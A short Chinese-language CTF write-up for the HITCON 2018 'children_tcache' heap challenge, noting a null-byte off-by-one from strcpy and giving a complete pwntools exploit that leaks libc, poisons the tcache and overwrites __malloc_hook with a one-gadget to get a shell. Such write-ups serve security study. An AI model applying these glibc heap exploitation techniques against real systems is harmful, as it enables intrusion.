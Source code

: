 ```yaml
---
title: 'Hitcon:children_tcache'
date: 2018-11-16 22:07:12
tags:
layout: post
---
```

children..和baby是名字打错了吗/捂脸
<!--more-->
# Analysis
[附件][2]
baby_tcache的低级版...
[baby_tcache][1]
主要漏洞在strcpy存在null byte off
只要像babytcache一样构造直接show来leak就可以了...
主要思路在上题链接中这里不多赘述

# EXP
```python
from pwn import *
def cmd(c):
	p.sendlineafter("ice: ",str(c))
def add(size,data):
	cmd(1)
	p.sendlineafter("Size:",str(size))
	p.sendafter("Data:",data)
def show(idx):
	cmd(2)
	p.sendlineafter("Index:",str(idx))
def free(idx):
	cmd(3)
	p.sendlineafter("Index:",str(idx))

p=process("./children_tcache")
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
for x in range(6):
	add(0x80,"\n")
add(0x5e0,'\n')#6
add(0x500,'\n')#7
add(0x80,'\n')#8
free(6)


add(0x18,'B'*0x18)#6
add(0x80,'\n')#9

for x in range(6):
	free(x)


free(8)
free(6)
add(0x100,'\n')#0
free(9)
free(7)
add(0x350,'\n')#1
add(0x30,'\n')#2
add(0x40,'\n')#3
show(0)
base=u64(p.readline()[:-1].ljust(8,'\x00'))-(0x7ffff7dcfca0-0x7ffff79e4000)
libc.address=base
log.warning(hex(base))
add(0x100,'\n')
free(0)
free(4)
add(0x100,p64(libc.symbols['__malloc_hook']))
add(0x100,p64(libc.symbols['__malloc_hook']))
add(0x100,p64(0x10a38c+base))
cmd(1)
p.sendline("0")
p.sendline("clear")
p.interactive("nier>>>")
```




[1]:[https://n132.github.io/2018/11/15/Hitcone-baby-tcache/]
[2]:[1]:https://github.com/n132/Watermalon/tree/master/Hitcon_2018/children_tcache